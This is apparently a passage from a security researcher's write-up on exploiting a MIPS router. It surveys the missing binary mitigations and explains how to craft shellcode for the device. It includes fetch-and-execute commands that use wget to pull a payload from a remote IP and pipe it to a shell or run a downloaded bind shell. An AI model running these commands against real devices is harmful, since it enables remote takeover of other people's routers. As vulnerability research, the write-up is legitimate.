 ## Binary Mitigations
Every file in `/bin`, every file in `/sbin`, `/hualai/hl_client`, `/hualai/hlRouterApp`, and `/hualai/boa/boa` have the same (lack of) protections:
```
Arch:     mips-32-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      No PIE (0x400000)
Stack:    Executable
RWX:      Has RWX segments
```

All the libraries in `/lib` have PIE enabled, most of them have NX enabled + no RELRO, and only `libuClibc-0.9.33.so` has canaries.

The `/hualai/iperf3` binary has the following protections:
```
Arch:     mips-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX unknown - GNU_STACK missing
PIE:      PIE enabled
Stack:    Executable
RWX:      Has RWX segments
```

## Shellcode
A fantastic explanation and example of little-endian MIPS32 shellcode can be found [here](https://fireshellsecurity.team/writing-a-shellcode-for-mips32/). The snippet they provided is great, as it's only 48 bytes with no null bytes, no whitespace, no double quotes, and calls `execve("//bin/sh",NULL,NULL)` using syscalls. However, this code (even after adapted for endianness) will not work for us for 2 reasons: `execve` ALWAYS requires the `args` argument on the router (for a reason I don't understand), and because of sockets we don't have access to stdin/stdout.

To get around that, we need to create our own shellcode with args and some way to access the shell. We could duplicate file descriptors, or spawn a bind/reverse shell. Depending on the situation, it's possible that the socket is already closed, so spawning a bind/reverse shell is the most reliable candidate. 

Unfortunately, many of the methods of spawning shells involve utilities and binaries that don't exist (such as `bash` or `nc`), however we can make a `wget` request to an IP we own, download a compiled bind shell, and run it. Therefore, a command like `execve("/bin/sh", {"-c", "wget http://101.102.103.104:4444 -qO-|ash", NULL},NULL)` will allow us to run whatever code we want remotely. On the server, it can have the following command - `wget http://1.2.3.4:4444/shell -O /tmp/s && chmod +x /tmp/s && /tmp/s`.

To test out shellcode on the actual router, I wrote [`shellcode.c`](./pwn/shellcode.c) (compiled version [here](./pwn/shellcode)), which listens on port 4444, reads in up to 300 raw bytes, and executes them as MIPS instructions. You are meant to have established a shell on the router, `wget` this binary to the machine, and run it, getting the raw bytes over the network from your pwntools script on your main machine.
